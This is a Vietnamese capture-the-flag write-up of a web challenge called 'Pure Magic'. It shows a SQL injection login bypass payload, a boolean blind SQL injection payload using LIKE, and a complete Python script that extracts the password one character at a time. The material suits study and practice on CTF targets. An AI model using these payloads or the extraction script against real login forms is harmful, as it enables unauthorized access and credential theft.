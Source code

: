 ## Pure Magic ([Link](https://cryptixctf.com/web3))

- Lại là 1 bài sql, tuy nhiên không phải đơn giản như bài đầu nhưng cũng không khó

- OK, bây giờ thử vài payload xem có cái nào hoạt động không

- Sau 1 hồi thử thì mình thấy có payload này hoạt động: `admin' OR '1' = '1'-- -`

- Ký tự `-- -` dùng để *comment* tức là toàn bộ *query* phía sau sẽ trở thành *comment* hết, chúng sẽ không được *server* đọc và thực thi

- 1 vài loại *comment* mình thường dùng:

  - `--`
  - `#`
  - `-- -`
  - `\* *\`

- Vấn đề là khi bypass qua sql của đề thì chả có gì cả ngoài vài dòng *troll*, vậy là *password* không thể dump trực tiếp tự *database*, ít nhất là mình nghĩ là vậy

- Bây giờ mình sử dụng kỹ thuật *blind sql* để dò ra *password* của đề

- Mình sẽ viết 1 *tool* nhỏ đề dò ra *password* của đề, mình sẽ không giải thích *tool*, tuy nhiên mình sẽ nói qua *payload* mình sử dụng để dò *password*

- Payload: `admin' OR BINARY password LIKE 'B%'-- -`

- Đoạn *LIKE 'B%'* dùng để xác thực xem *password* của nó có bắt đầu bằng chữ *B* hay không. Ký tự *%* dùng để đại diện cho tất cả các ký tự tiếp theo. Nếu đúng là bắt đầu bằng chữ *B* thì ta sẽ có 1 mệnh đề đúng. Vậy câu query sẽ hoạt động, *server* tiếp tục xuất ra đoạn troll kia. Nếu sai, thì *server* sẽ hiện thị dòng *Please just stop guessing.* Còn *BINARY* dùng để phân biệt chữ hoa và chữ thường

- Cứ như vậy, nếu đúng ta sẽ thêm ký tự đó vào *listpass* lưu sẵn, sai thì bỏ qua

- Ngoài dùng *LIKE* thì còn rất nhiều hàm khác có thể dùng như *SUBSTRING*, ...

- Còn đây là tool của mình

  ```python
  import requests
  from string import *
  import re, sys
  
  char = ascii_lowercase + ascii_uppercase + digits + '_'
  
  url = 'https://cryptixctf.com/web3/login.php'
  
  listpass = ''
  
  no = []
  
  flag = 0
  
  while True:
  	for x in char:
  
  		print('trying with: ', listpass+x)
  
  		data = {
  			"pwd" : "admin' OR BINARY password LIKE '"+listpass+x+"%'-- -"
  		}
  
  		response = requests.post(url, data = data)
  
  		fin = re.findall('Please just stop guessing.', response.text)
  
  		if fin == no:
  			listpass += x
  			flag = 0
  			break
  		else:
  			flag += 1
  		if flag == 63:
  			print('\n\nSuccess with password: ', listpass)
  			sys.exit()
  
  
  ```
 - Chậc, chả mãi mới ra flag, máy cùi
 
 ![flag](Selection_001.png)

  
